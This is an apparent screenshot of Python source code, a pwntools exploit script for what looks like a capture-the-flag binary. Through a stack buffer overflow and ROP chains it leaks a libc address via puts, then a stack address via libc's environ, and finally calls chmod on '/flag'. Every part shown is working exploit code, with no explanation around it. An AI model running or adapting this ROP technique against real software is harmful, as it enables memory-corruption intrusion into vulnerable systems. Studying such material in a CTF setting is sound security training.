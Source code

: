 ```python
    libc_chmod = libc.symbols['chmod']

    rop = ROP(BINARY)
    pop_rdi_ret = rop.find_gadget(['pop rdi']).address
    pop_rsi_ret = rop.find_gadget(['pop rsi']).address

    libc_rop = ROP(LIBC)

    if rop:
        # p = gdb.debug(BINARY, GDB_SCRIPT)
        p = process(BINARY)

        delta = 0
        # PHASE 1 - leak libc address via puts
        buf_1 = b'A' * (104 + delta)
        buf_1 += p64(pop_rdi_ret)
        buf_1 += p64(elf_puts_got)
        buf_1 += p64(elf_puts)  # Call puts(puts_got) - leaking its libc address
        buf_1 += p64(elf_start)
        p.send(buf_1)
        time.sleep(0.2)
        p.recvuntil(b'Leaving!\n')  # TODO: check this on real exploit mode
        puts_addr_bytes = p.recv(6)
        
        puts_addr = int.from_bytes(puts_addr_bytes, "little")
        libc_base = puts_addr - libc_puts
        assert(libc_base & 0xfff == 0)
        libc_environ_addr = libc_base + libc_environ
        libc_chmod_addr = libc_base + libc_chmod
        print(f'libc_environ_addr:{hex(libc_environ_addr)} libc_addr:{hex(libc_base)} libc_chmod_addr:{hex(libc_chmod_addr)}')

        # PHASE 2 - using libc's environ, get a stack address
        buf_2 = b'A' * (104 + delta)
        buf_2 += p64(pop_rdi_ret)
        buf_2 += p64(libc_environ_addr)
        buf_2 += p64(elf_puts)  # Call puts(libc_environ) - leaking its libc address
        buf_2 += p64(elf_start)
        p.send(buf_2)
        time.sleep(0.2)
        p.recvuntil(b'Leaving!\n')
        environ_bytes = p.recv(6)
        elf_environ_addr = int.from_bytes(environ_bytes, "little")
        print(f'elf_environ_addr:{hex(elf_environ_addr)}')

        input_addr = elf_environ_addr - 648
        flag_addr = input_addr + 0x200
        
        # PHASE 3 - trigger a shellcode
        buf_3 = b'A' * (104 + delta)
        buf_3 += p64(pop_rdi_ret)
        buf_3 += p64(flag_addr)
        buf_3 += p64(pop_rsi_ret)
        buf_3 += p64(0xffff)
        buf_3 += p64(0x4242424242424242)  # r15 crap
        buf_3 += p64(libc_chmod_addr)
        buf_3 += b'/flag\x00\x00\x00' * 0x100  # a is a symlink to /flag
        p.send(buf_3)

        # p.interactive()
        time.sleep(0.2)
        

```